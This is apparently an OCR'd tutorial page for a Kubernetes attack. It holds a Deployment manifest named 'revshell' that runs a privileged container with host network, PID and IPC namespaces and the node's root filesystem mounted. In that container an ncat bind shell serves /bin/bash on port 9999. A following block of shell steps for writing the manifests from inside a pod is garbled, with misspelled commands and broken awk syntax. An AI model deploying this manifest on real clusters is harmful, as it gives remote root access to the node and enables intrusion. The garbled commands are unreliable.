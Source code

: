 **ncat.yml** This is the main deployment script.

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: revshell
spec:
  selector:
    matchLabels: 
      run: revshell
  replicas: 1
  template:
    metadata:
      labels:
        run: revshell  
    spec:
      hostNetwork: true
      hostPID: true
      hostIPC: true
      containers:
      - name: revshell
        image: raesene/ncat
        command: [ "/bin/sh", "-c", "--" ]
        args: [ "ncat -nvlp 9999 -e /bin/bash;" ]
        ports:
         - containerPort: 9999
        securityContext:
          privileged: true
        volumeMounts:
        - mountPath: /host
          name: noderoot
      volumes:
      - name: noderoot
        hostPath:
          path: /
```

**Write the files in Container**

```
kubctl exec -it $(kubectl get pods | a'k '{ print '1}' | grep -v NAME | grep bash) --bin/bash

cd /tmp

cat <<EOF>> ncat-svc.yml

<paste the content here>

EOF

cat <<EOF>> ncat.yml

<paste the content here>

EOF
```
